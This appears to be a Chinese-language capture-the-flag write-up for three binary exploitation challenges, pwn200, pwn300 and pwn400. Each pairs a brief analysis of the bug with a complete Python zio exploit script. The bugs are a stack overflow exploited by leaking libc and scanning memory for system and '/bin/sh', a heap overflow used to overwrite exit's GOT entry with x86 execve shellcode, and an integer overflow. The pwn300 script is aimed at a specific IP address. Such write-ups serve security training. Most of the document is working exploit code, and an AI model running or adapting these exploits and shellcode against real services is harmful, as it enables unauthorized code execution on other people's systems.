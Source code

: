 pwn
==========

pwn200
-----------
	pwn200的溢出点十分明显，可以直接覆盖返回地址
![pwn200_1](./pwn200_1.png)
	但是pwn200没有给libc，主办方表示不需要libc，想半天没想到有什么特殊的方法。
	所以就用了一种笨办法，先读出read的地址，大概估算出libc的起始地址，接着利用system函数的机器码，定位到system函数，利用相同的办法，在libc中定位出/bin/sh字符串位置，最后得到执行

	from zio import *
	import time
	fp=open('log','w')
	host='localhost'
	io=zio((host,5555))
	#time.sleep(10)
	io.read_until('!\n')
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(0x804A004)+l32(0x4))
	temp=io.read(0x4)
	address=ord(temp[0])+ord(temp[1])*(16**2)+ord(temp[2])*(16**4)+ord(temp[3])*(16**6)
	ref=0xd9660
	address-=ref
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(address)+l32(0x100000))
	point='\x53\x83\xec\x08\x8b\x44\x24\x10\xe8\xde\x4d\x0e\x00\x81\xc3\x93\x7c\x16\x00\x85\xc0\x74\x09\x83\xc4\x08\x5b\xe9\xb0\xfa\xff\xff\x8d\x83\xb1\x71\xfb\xff\xe8\xa5\xfa\xff\xff\x85\xc0\x0f\x94\xc0\x83\xc4\x08\x0f\xb6\xc0\x5b'
	temp1=io.read_until(point)
	temp3=io.read(0x100000-len(temp1))
	length=len(temp1)-len(point)
	system_address=address+length
	bash_ref='\x2f\x62\x69\x6e\x2f\x73\x68\x00'
	io.write('s'*0x70+l32(0x0804855A)+l32(0x1)+l32(address)+l32(0x300000))
	temp2=io.read_until(bash_ref)
	bash_address=address+len(temp2)-len(bash_ref)
	fp.write(hex(bash_address)+'\n')
	io.write('s'*0x70+l32(system_address)+l32(0x1)+l32(bash_address))

	io.interact()

	result:
![pwn200](./pwn200r.png)

pwn300
----------
	pwn300在delete的时候会直接报段错误，其相关的汇编代码显示，程序执行的时候会错位2格。分析了create的代码后，我们知道这个heap的结构。
![pwn300_1](./pwn300_3.png)
	在edit中可以直接指定type，所以出现溢出，可以修改相邻节点的数据。
	利用这个，在delete函数中，可以写入任意内存。
	现在，我们可以修改exit函数的got表，修改到一开始申请的堆上。接着在堆上放shellcode。
	
	from zio import *
	import time
	host='133.130.90.210'
	io=zio((host,6666))
	io.read_until('Choice:\n')

	io.write('1'+'\n')
	io.read_until('Girl:'+'\n')
	io.write('0'+'\n')
	io.read_until('Choice:\n')
	io.write('1'+'\n')
	io.read_until('Girl:\n')
	io.write('0\n')

	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x70+l32(0)+l32(0)+l32(0))

	io.read_until('Choice:\n')
	io.write('2\n')
	io.read_until('delete:\n')
	io.write('1\n')
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x74)
	io.read_until('Choice:\n')
	io.write('4\n')
	io.read_until('print:\n')
	io.write('0\n')
	temp=io.read(0x78)

	address=ord(temp[-1])*(16**6)+ord(temp[-2])*(16**4)+ord(temp[-3])*(16**2)+ord(temp[-4])
	print hex(address)

	payload_address=address+0xc
	exit_address=0x804b01c-0x8
	shellcode='\x31\xc0'+'\x50'+'\x68\x2f\x2f\x73\x68'+'\x68\x2f\x62\x69\x6d'+'\x8a\x44\x24\x03'+'\xfe\xc0'+'\x88\x44\x24\x03'+'\x31\xc0'+'\x89\xe3'+'\x50'+'\x53'+'\x89\xe1'+'\x31\xd2'+'\xb0\x0b'+'\xcd\x80'
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('a'*0x70+l32(0x300))

	io.read_until('Choice:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write('0\n')
	io.read_until('Choice:\n')
	io.write('3\n')
	io.read_until('edit:\n')
	io.write('0\n')
	io.read_until('edit:\n')
	io.write('1\n')
	io.read_until('Girl:\n')
	io.write(shellcode+'\x90'*(0x70-len(shellcode))+l32(exit_address)+l32(payload_address)+l32(0))
	io.read_until('Choice:\n')
	io.write('5\n')
	io.interact()

	result:
![pwn300](./pwn300r.png)


pwn400
-----------
	pwn400是个整型溢出
![pwn400_1](./pwn400_2.png)
	exp:

	from zio import *
	import time

	host='localhost'
	io=zio((host,8888))
	#time.sleep(10)
	io.readline()
	io.write('s'*90+'PK\x01\x02'+' '*0x18+'\xff\xff'+' '*0x10+'s'*12)
	print '\n'
	io.interact()

	result:
![pwn400](./pwn400r.png)
